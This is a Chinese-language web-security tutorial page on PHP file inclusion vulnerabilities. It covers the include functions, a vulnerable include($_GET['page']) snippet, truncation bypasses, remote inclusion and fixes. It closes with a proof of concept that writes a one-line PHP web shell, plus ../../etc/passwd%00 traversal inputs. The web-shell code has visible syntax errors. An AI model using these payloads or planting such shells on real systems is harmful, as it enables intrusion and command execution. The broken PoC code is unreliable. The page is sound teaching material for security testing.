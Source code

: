 ```yaml
---
author: YOUZAI
title: 任意文件读取
date: 2023/04/25
categories:
 - 常见漏洞
tags:
 - WEB安全
---
```


## 漏洞原理

文件包含函数加载的参数没有经过过滤或者严格的定义，可以被用户控制，包含其他恶意文件，导致了执行了非预期的代码。从而导致客户端可以调用一个恶意文件，造成文件包含漏洞。

### PHP 文件包含函数

* `require()` => 只要程序一运行就包含文件，找不到被包含的文件时会产生致命错误，并停止脚本。
* `include()` => 执行到 include 时才包含文件，找不到被包含文件时只会产生警告，脚本将继续执行。
* `require_once()` 和`include_once()` => 若文件中代码已被包含则不会再次包含。与前两个的不同之处在于这两个函数只包含一次，适用于在脚本执行期间同一个文件有可能被包括超过一次的情况下，你想确保它只被包括一次以避免函数重定义，变量重新赋值等问题。

==代码分析==

```php
<?php
    $filename=$_GET['page'];
	include($filename);
?>
```

### 文件包含绕过

#### %00截断

截断漏洞出现的核心就是`chr(0)`，这个字符不为空 (Null)，也不是空字符 ("")，更不是空格。当程序在输出含有 chr(0) 变量时，chr(0) 后面的数据会被停止，换句话说，就是误把它当成结束符，后面的数据直接忽略，这就导致了漏洞产生。

* 条件

```ini
allow_url_fopen = off
magic_quotes_gpc = off
php_version < 5.3.4
```

#### 点号截断

Windows 下目录最大长度为 256 字节，超出的部分会被丢弃；Linux 下目录最大长度为 4096 字节，超出的部分会被丢弃。所以用`......`绕过的时候 Windows 系统中，点号需要长于 256；Linux 系统中点号要长于 4096。

* POC

```http
http://xx.xx.xx.xx/web/baohan/index.php?page=phpinfo.php.......................................
```

#### 长路径截断

原理同上。

* POC

```http
http://xx.xx.xx.xx/web/baohan/index.php?page=phpinfo.php./././././././././././././././././././././
```

#### 远程文件包含

* 条件

```ini
allow_url_include = On
```

如果是包含远程服务器上的 PHP 文件，那么得到的是被远程服务器解析过的 PHP，所以在写一句话木马的时候就不要做成`.php`的文件，一般做成`.txt`的文件，再让它包含过来。

## 漏洞危害

* Web 服务器的文件被外界浏览导致信息泄露。
* 脚本被任意执行，典型影响如下：
	* 篡改网站。
	* 执行非法操作。
	* 攻击其他网站。

## 修复建议

* 过滤`../`，`./`。
* 配置`php.ini`文件。
* 关闭`allow_url_fopen`和`allow_url_include`。
* 设置白名单。

## 测试方法

让测试目标访问搭建好的 **VPS** 网站，将POC文件保存为 **hack.txt**。

POC：

```php
<?php
	$myfile = fopen("hack.php", "w");
	$txt = '<?php system($_GET[x];?>';
	fwrite($myfile, $txt);
	fclose(handle);
?>
```

::: info 提示

php 内核是由 C 语言写的，因此也使用了 c 语言中的字符串处理函数，在连接字符串时，0 字节（\x00）将作为字符串结束符，攻击者可以在 Web 中尝试使用 ../../etc/passwd%00 截断后面拼接的文件后缀名，或者 ../../etc/passwd\0。

:::